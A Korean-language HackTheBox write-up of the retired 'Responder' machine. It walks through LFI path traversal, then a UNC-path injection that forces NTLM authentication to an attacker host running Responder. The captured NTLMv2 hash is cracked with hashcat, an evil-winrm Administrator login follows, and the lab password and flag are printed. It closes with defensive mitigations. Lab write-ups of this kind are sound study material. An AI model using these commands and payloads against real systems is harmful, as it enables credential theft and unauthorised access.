


+++
title = '[HTB] - Responder'
date = 2026-04-25T22:45:00+09:00
draft = false

categories = ["HTB", "pentesting", "Web Hacking"]
tags = ["HTB", "CVE-2019-11231", "CMS", "Web Hacking", "OSCP", "Burp Suite"]
description = "HackTheBox Responder 풀이 — Windows 대상 LFI에서 RFI와 UNC Path 주입으로 NTLM 인증을 강제 유발하고, Responder로 NTLMv2 해시를 캡처해 hashcat으로 크랙한 뒤 evil-winrm으로 접속하는 공격 체인을 정리한다."
+++

# HTB - Responder (Retired Machine)

## Overview

| 항목 | 내용 |
|------|------|
| OS | Windows |
| 포트 | 80 (HTTP), 5985 (WinRM) |
| 공격 체인 | LFI 발견 → RFI + UNC Path 주입 → Responder로 NTLMv2 해시 탈취 → Hashcat 크랙 → evil-winrm 접속 |

---

## 배경 지식

본격적인 풀이 전에 이번 머신에서 핵심이 되는 개념들을 정리한다.

### 이름 해석 프로토콜 (LLMNR / NBT-NS)

Windows는 호스트명을 IP로 변환할 때 아래 순서를 따른다.

```
1. hosts 파일
2. DNS 서버
3. 실패 → LLMNR 브로드캐스트 (UDP 5355)
4. 실패 → NBT-NS 브로드캐스트 (UDP 137)
```

DNS 조회가 실패하면 네트워크 브로드캐스트로 "이 이름 아는 사람?"을 물어보는데, **응답자가 누구인지 검증하지 않는다**는 게 핵심 취약점이다. Responder는 이 특성을 이용해 가짜 응답을 먼저 보내고 인증 정보를 가로챈다.

### UNC Path

Windows에서 네트워크 공유 자원에 접근하는 표준 경로 표기법이다.

```
\\서버주소\공유폴더\파일
\\192.168.1.100\share\file.txt
```

중요한 건 Windows에서 UNC 경로를 열면 **자동으로 SMB 연결이 발생**하고, SMB 연결에는 **NTLM 인증이 자동으로 포함**된다는 점이다. 즉 UNC 경로 접근 자체가 인증 정보를 네트워크에 흘리는 트리거가 된다.

### SMB와 NTLM의 관계

SMB는 파일을 주고받는 프로토콜이고, NTLM은 그 연결에 들어가기 위한 인증 프로토콜이다. SMB 연결이 맺어질 때마다 아래 흐름이 자동으로 실행된다.

```
Client                              Server
  │──── NTLMSSP_NEGOTIATE ─────────→│
  │←─── NTLMSSP_CHALLENGE (난수) ────│
  │──── NTLMSSP_AUTH (Hash 응답) ───→│
```

Challenge-Response 전체가 네트워크 위에 그대로 흘러다니기 때문에 가로채면 오프라인 크래킹이 가능하다. Responder가 캡처하는 것이 바로 이 과정이다.

### RFI (Remote File Inclusion)

웹 애플리케이션이 외부 URL을 필터링 없이 `include`할 때 발생하는 취약점이다.

```php
// 취약한 코드
$page = $_GET['page'];
include($page);
```

Linux 환경에서는 주로 원격 웹쉘 실행으로 이어지지만, **Windows 환경에서는 UNC Path를 value로 주입하면 서버가 직접 공격자 머신에 SMB 연결을 시도**한다. 이 순간 서버의 NTLM 자격증명이 공격자에게 전송된다.

### vHost (Virtual Host)

하나의 IP에서 여러 도메인을 운영하는 기법이다. 웹서버는 DNS가 아닌 HTTP Host 헤더를 보고 어떤 사이트를 서빙할지 결정한다. 이 때문에 DNS 없이도 Host 헤더만 조작하면 숨겨진 서브도메인을 탐색할 수 있다.

---

## 공격 체인 요약

```
nmap 정찰
  → 80, 5985 포트 확인
    → 웹사이트 접속 → unika.htb로 리다이렉트
      → /etc/hosts 등록 후 재접속
        → page 파라미터 LFI 확인
          → RFI + UNC Path 주입으로 NTLM 인증 강제 유발
            → Responder NTLMv2 해시 캡처
              → hashcat으로 크랙
                → evil-winrm 접속 → Flag
```

---

## 정찰 (Enumeration)

### 포트 스캔

```bash
sudo nmap 10.129.38.20 -Pn -n --min-rate 2000
```

```
PORT     STATE SERVICE
80/tcp   open  http
5985/tcp open  wsman
```

80번 HTTP와 5985번 WinRM이 열려있다. WinRM은 원격 PowerShell 세션을 여는 포트로, 자격증명만 확보되면 `evil-winrm`으로 시스템에 바로 접속할 수 있다. 일단 웹부터 살펴본다.

### 웹사이트 분석

브라우저로 IP에 접속하면 `unika.htb`로 리다이렉트된다. DNS가 없으므로 `/etc/hosts`에 직접 등록한다.



```
10.129.38.20 unika.htb
```

등록 후 접속하면 정상적으로 랜딩 페이지가 뜨는 것을 확인했다. 페이지를 둘러보니 URL에 `page` 파라미터가 있고, 언어 전환 시 `?page=french.html` 형태로 각 HTML 파일을 불러오는 구조였다.


파라미터가 파일 경로를 직접 받는다면 LFI를 먼저 시도해볼 수 있다.

### LFI 확인


```
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```

Windows hosts 파일 내용이 그대로 응답으로 돌아왔다. LFI 취약점이 존재한다.

LFI를 통해 더 많은 정보를 수집하려고 OWASP ZAP으로 Windows LFI 워드리스트를 기반으로 퍼징을 진행했다. `apache.conf`, `C:/Users/Administrator/NTUser.dat` 등의 응답이 확인됐지만 자격증명으로 직접 이어지진 않았다. 단순 LFI만으로는 한계가 있다고 판단하고 방향을 전환했다.

---

## 공격 (Exploit)

### 공격 체인 설계

task 힌트에서 `Responder`, `NTLM`, `RFI` 키워드가 보였다. 이 세 가지를 연결하면 다음 체인이 성립한다.

```
RFI → UNC Path 주입 → 서버가 공격자 IP로 SMB 연결 시도
→ NTLM 인증 자동 발생 → Responder가 NTLMv2 해시 캡처
→ hashcat 크랙 → 자격증명 획득
```

이미 `page` 파라미터에 LFI 취약점이 있고, Windows 서버라면 UNC Path도 그대로 통과할 가능성이 높다.

### Responder 실행

먼저 공격자 머신에서 Responder를 올린다.

```bash
sudo responder -I tun0 -v
```

### RFI + UNC Path 주입

Responder가 올라간 상태에서 `page` 파라미터에 공격자 IP를 UNC Path로 주입한다.

```
http://unika.htb/index.php?page=//10.10.15.68/somefile
```

서버가 해당 경로를 열려고 SMB 연결을 시도하는 순간, NTLM 인증이 자동 발생하고 Responder가 해시를 캡처한다.

```
[SMB] NTLMv2-SSP Client   : 10.129.66.106
[SMB] NTLMv2-SSP Username : RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::RESPONDER:8b3865796b71a923:...
```

### 해시 크랙

캡처한 NTLMv2 해시를 파일에 저장하고 hashcat으로 크랙한다.

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt.gz
```

`-m 5600`은 NetNTLMv2 해시 포맷이다.

```
ADMINISTRATOR::RESPONDER:...:badminton

Status: Cracked
```

rockyou.txt 앞쪽에 있었던 건지 1초 만에 크랙됐다.

---

## 접속 (Foothold)

```
ID: Administrator
PW: badminton
```

5985 WinRM 포트가 열려있으므로 `evil-winrm`으로 바로 접속한다.

```bash
evil-winrm -i 10.129.66.106 -u administrator -p badminton
```

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Administrator 세션이 열렸다. 유저 목록을 확인한다.

```powershell
net user
# Administrator, DefaultAccount, Guest, mike, WDAGUtilityAccount
```

`mike` 계정이 있다. HTB 관례상 user flag는 일반 계정 Desktop에 있는 경우가 많다.

```powershell
cd C:\Users\mike\Desktop
cat flag.txt
```

```
ea81b7afddd03efaa0945333ed147fac
```

---

## Flags

- user: `ea81b7afddd03efaa0945333ed147fac`

---

## 배운 것들

### 이번 머신의 핵심 깨달음

처음에는 LFI로 자격증명 파일을 직접 읽으려고 시간을 많이 썼다. Windows LFI 워드리스트로 퍼징까지 했지만 결국 자격증명으로는 이어지지 않았다. 돌이켜보면 LFI가 확인된 순간 "이게 Windows고 RFI도 되지 않을까?"라는 질문을 더 일찍 해야 했다.

RFI + UNC Path 조합은 Linux 환경의 RFI와 완전히 다른 공격 경로다. Linux에서는 원격 웹쉘 실행이 목적이지만, Windows에서는 UNC Path 자체가 NTLM 인증을 강제로 유발하는 트리거가 된다. 이 차이를 머릿속에 정리해두는 게 중요하다.

### 공격 체인 각 요소 정리

| 요소 | 역할 |
|------|------|
| LFI | 취약점 확인 및 초기 정보 수집 |
| RFI + UNC Path | 서버가 공격자에게 SMB 연결을 시도하도록 유도 |
| SMB / NTLM | UNC 접근 시 자동 발생하는 인증 과정 |
| Responder | SMB 연결을 받아 NTLMv2 해시 캡처 |
| hashcat `-m 5600` | NetNTLMv2 해시 오프라인 크랙 |
| evil-winrm | WinRM(5985)을 통한 PowerShell 원격 접속 |

### 다음에 비슷한 상황을 만나면

- `page`, `file`, `path`, `template` 같은 파라미터에서 LFI 확인 즉시 → RFI + UNC Path도 함께 시도
- Windows 대상 + 파일 파라미터 존재 → Responder 먼저 올려두고 UNC Path 주입 시도
- 5985 포트 열려있으면 → 자격증명 확보 즉시 evil-winrm으로 접속
- NTLMv2 해시 크랙 → hashcat `-m 5600`

### 방어 관점 (Blue Team)

| 공격 벡터 | 방어 방법 |
|---------|---------|
| LLMNR/NBT-NS 스푸핑 | GPO로 비활성화 |
| NTLM 해시 탈취 | Kerberos 강제 사용, SMB Signing 활성화 |
| RFI → UNC | `allow_url_include = Off` (php.ini) |
| NTLMv1 취약점 | GPO로 NTLMv2만 허용 |

---

## 관련 글

- [HTB - Archetype](/posts/archetype/) — 동일한 Windows 침투 환경에서 자격증명 확보 후 evil-winrm으로 접속하는 흐름.
- [HTB - Gettingstarted](/posts/gettingstarted/) — LFI/파일 인클루전 기반 웹 취약점의 입문 사례.
